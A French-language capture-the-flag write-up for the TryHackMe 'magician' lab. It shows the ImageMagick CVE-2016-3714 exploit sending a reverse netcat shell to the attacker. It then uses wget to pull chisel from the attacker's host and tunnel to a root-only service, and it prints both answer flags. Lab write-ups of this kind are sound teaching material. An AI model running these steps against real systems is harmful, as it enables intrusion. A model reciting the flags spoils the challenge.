






# magician #

## Task 1 Find the flags! ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.126.254 magician.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A magician -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 14:07 CEST
Nmap scan report for magician.thm (10.10.126.254)
Host is up (0.072s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/10%OT=21%CT=1%CU=36886%PV=Y%DS=2%DC=T%G=Y%TM=61126C7
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   34.36 ms  10.9.0.1
2   102.55 ms magician (10.10.126.254)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.06 seconds

```

D'après le scan on voit 2 services : 
Le service FTP sur le port 21.     
Le service HTTP sur le port 8081.   

```bash
connected to magician.
220 THE MAGIC DOOR
Name (magician.thm:tim): anonymous
331 Please specify the password.
Password:

230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.

```

Quand on se connect sur le service FTP on un message qui nous dirige vers un site.



Le site nous indique une faille CVE-2016-3714 avec un exemple pour exploiter la faille.     



Sur la page web on peut téléverser une image au format.png.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
msf6 > search imagemagick

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/unix/webapp/coppermine_piceditor             2008-01-30       excellent  Yes    Coppermine Photo Gallery picEditor.php Command Execution
   1  exploit/multi/fileformat/ghostscript_failed_restore  2018-08-21       excellent  No     Ghostscript Failed Restore Command Execution
   2  exploit/unix/fileformat/ghostscript_type_confusion   2017-04-27       excellent  No     Ghostscript Type Confusion Arbitrary Command Execution
   3  exploit/unix/fileformat/imagemagick_delegate         2016-05-03       excellent  No     ImageMagick Delegate Arbitrary Command Execution


Interact with a module by name or index. For example info 3, use 3 or use exploit/unix/fileformat/imagemagick_delegate

```

Sur metasploit on trouve un exploit qui permet d'exécuter du code à distance.  

```bash
msf6 > use 3
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/imagemagick_delegate) > options

Module options (exploit/unix/fileformat/imagemagick_delegate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILENAME   msf.png          yes       Output file
   USE_POPEN  true             no        Use popen() vector


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.26     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   SVG file

msf6 exploit(unix/fileformat/imagemagick_delegate) > set LHOST 10.9.228.66
LHOST => 10.9.228.66

msf6 exploit(unix/fileformat/imagemagick_delegate) > set target 1
target => 1

msf6 exploit(unix/fileformat/imagemagick_delegate) > run

[+] msf.png stored at /home/tim/.msf4/local/msf.png

tim@kali:~/Bureau/tryhackme/write-up$ cp /home/tim/.msf4/local/msf.png ./
```

Avec metasploit on créer un fichier avec un reverse shell à l'intérieur. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
listening on [any] 4444 ...
```

On écoute le bon port 



On téléverse le l'exploit avec le reverse shell.   


**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.24.42] 57896
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
cat /home/magician/user.txt
THM{simsalabim_hex_hex}

```

On obtient un shell avec les droits magicien.    
On lit le fichier user.txt.    

La réponse est : THM{simsalabim_hex_hex}     

**root.txt**

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
magician@magician:/tmp/hsperfdata_magician$ 

agician@magician:/tmp/hsperfdata_magician$ netstat -l
netstat -anp | grep LISTEN
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      933/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
unix  2      [ ACC ]     SEQPACKET  LISTENING     14990    -                    /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     22561    921/systemd          /run/user/1000/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     22565    921/systemd          /run/user/1000/gnupg/S.gpg-agent
unix  2      [ ACC ]     STREAM     LISTENING     22566    921/systemd          /run/user/1000/gnupg/S.gpg-agent.extra
unix  2      [ ACC ]     STREAM     LISTENING     22567    921/systemd          /run/user/1000/gnupg/S.gpg-agent.ssh
unix  2      [ ACC ]     STREAM     LISTENING     22568    921/systemd          /run/user/1000/snapd-session-agent.socket
unix  2      [ ACC ]     STREAM     LISTENING     22569    921/systemd          /run/user/1000/gnupg/S.dirmngr
unix  2      [ ACC ]     STREAM     LISTENING     22570    921/systemd          /run/user/1000/gnupg/S.gpg-agent.browser
unix  2      [ ACC ]     STREAM     LISTENING     14939    -                    /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     14949    -                    /run/systemd/journal/stdout
unix  2      [ ACC ]     STREAM     LISTENING     14988    -                    /run/lvm/lvmpolld.socket
unix  2      [ ACC ]     STREAM     LISTENING     15407    -                    /run/lvm/lvmetad.socket
unix  2      [ ACC ]     STREAM     LISTENING     21929    -                    /var/lib/amazon/ssm/ipc/termination
unix  2      [ ACC ]     STREAM     LISTENING     18963    -                    /var/lib/lxd/unix.socket
unix  2      [ ACC ]     STREAM     LISTENING     18922    -                    @ISCSIADM_ABSTRACT_NAMESPACE
unix  2      [ ACC ]     STREAM     LISTENING     21928    -                    /var/lib/amazon/ssm/ipc/health
unix  2      [ ACC ]     STREAM     LISTENING     18917    -                    /run/snapd.socket
unix  2      [ ACC ]     STREAM     LISTENING     18919    -                    /run/snapd-snap.socket
unix  2      [ ACC ]     STREAM     LISTENING     18935    -                    /run/uuidd/request
unix  2      [ ACC ]     STREAM     LISTENING     18941    -                    /run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     18951    -                    /var/run/dbus/system_bus_socket

```

On remarque qu'il quelque chose de connecter sur le local host sur le port 6666.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel

tim@kali:~/Bureau/tryhackme/write-up$ whereis chisel
chisel: /usr/bin/chisel
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

tim@kali:~/Bureau/tryhackme/write-up$ chisel server -p 9002 --reverse
2021/08/10 16:36:40 server: Reverse tunnelling enabled
2021/08/10 16:36:40 server: Fingerprint U/LvCFAMN1EFU5sTy4i9EE39NWyOY7mKunwk+pE0z2U=
2021/08/10 16:36:40 server: Listening on http://0.0.0.0:9002
```

Sur notre machine on prépare chisel.  
On dit à chisel d'écouter sur le port 9002.   

```bash
magician@magician:/tmp$ wget http://10.9.228.66:8000/chisel -nv
wget http://10.9.228.66:8000/chisel -nv
2021-08-10 10:27:56 URL:http://10.9.228.66:8000/chisel [8750072/8750072] -> "chisel" [1]

magician@magician:/tmp$ chmod +x chisel
chmod +x chisel

magician@magician:/tmp$ ./chisel client 10.9.228.66:9002 R:9001:127.0.0.1:6666
<hisel client 10.9.228.66:9002 R:9001:127.0.0.1:6666
2021/08/10 10:40:00 client: Connecting to ws://10.9.228.66:9002
2021/08/10 10:40:00 client: Connected (Latency 36.73419ms)
```

Sur la machine la victime on fait un redirection de port 6666 à 9002.   



On se retrouve avec une page qui demande un nom de fichier.



En mettant /root/root.txt

On une chaîne en hexadecimal.  

54484d7b6d616769635f6d61795f6d616b655f6d616e795f6d656e5f6d61647d0a



Quand on convertie notre chaîne on a notre flag.   

La réponse est : THM{magic_may_make_many_men_mad}  


